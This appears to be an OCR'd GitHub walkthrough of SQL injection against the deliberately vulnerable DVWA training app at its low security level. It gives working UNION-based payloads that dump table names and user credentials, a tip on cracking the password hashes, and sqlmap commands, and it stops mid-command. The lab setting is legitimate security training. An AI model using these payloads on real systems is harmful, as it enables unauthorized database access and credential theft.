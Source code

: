 ## 🛡️ LOW Security Level

### 📌 Overview
The code takes direct user input from the `id` parameter and injects it into an SQL query without any validation or escaping. This exposes the application to **classic SQL injection**, allowing attackers to manipulate the query, access unauthorized data, or compromise the backend.

---

### 🔍 Vulnerabilities Identified

```markdown
🔒 Vulnerability | ❌ Problem Description  
---|---  
Unfiltered User Input | No input validation or escaping allows SQL manipulation  
Dynamic Query Construction | The `$id` variable is injected directly into the SQL string  
Database Disclosure | Errors may reveal DB info due to `die(mysqli_error(...))`  
```

---

### 2️⃣ Exploitation Phase

```markdown
🔨 Tool: Browser, Burp Suite, curl

🔧 Setup:
- Navigate to: `/vulnerabilities/sqli/`
- Enter payload in ID field

🔁 Payload:
?id=1' OR '1'='1--+

manual exploitation

id=1'+or+1=1--+
| 🧩 Step | 🔍 Payload                                                                                                        | 🧠 Description                          |
| ------- | ----------------------------------------------------------------------------------------------------------------- | --------------------------------------- |
| 1       | `?id=1' order by 1,2--+`                                                                                          | Determine number of columns             |
| 2       | `?id=1' union select 1,2--+`                                                                                      | Confirm injectable points               |
| 3       | `?id=1' union select database(),version()--+`                                                                     | Leak DB name and version                |
| 4       | `?id=1' union select 1,table_name from information_schema.tables--+`                                              | Dump table names                        |
| 5       | `?id=1' union select 1,column_name from information_schema.columns where table_name=char(117,115,101,114,115)--+` | Extract column names from `users` table |
| 6       | `?id=1'+union+select+user,password+from+users+--+`                                                                | Dump user credentials (usually hashed)  |

🧰 Tip: Use CrackStation to crack MD5/SHA1 hashes found in the password column.

🤖 SQL Injection (Blind) using SQLMap
When classic SQLi is not possible, use SQLMap for blind extraction.

# 🔍 Step 1: Enumerate databases
sqlmap -u 'http://192.168.1.7/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit' \\
--cookie="security=low; PHPSESSID=d5c773c75e22c2df70cb53ab181a373b" --dbs

# 📂 Step 2: Enumerate tables from dvwa
sqlmap -u 'http://192.168.1.7/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit' \\
```
